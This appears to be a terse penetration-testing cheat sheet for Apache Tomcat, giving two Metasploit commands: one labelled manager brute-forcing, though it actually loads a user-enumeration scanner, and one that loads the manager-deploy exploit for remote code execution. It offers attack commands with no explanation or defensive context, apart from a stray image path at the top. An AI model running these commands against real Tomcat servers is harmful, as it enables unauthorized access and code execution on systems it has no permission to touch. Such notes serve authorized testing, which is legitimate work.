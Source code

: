 # Tomcat 

% tomcat

## tomcat manager bruteforce
```
msfconsole -x "use auxiliary/scanner/http/tomcat_enum"
```

## tomcat deploy
```
msfconsole -x "use exploit/multi/http/tomcat_mgr_deploy"
```
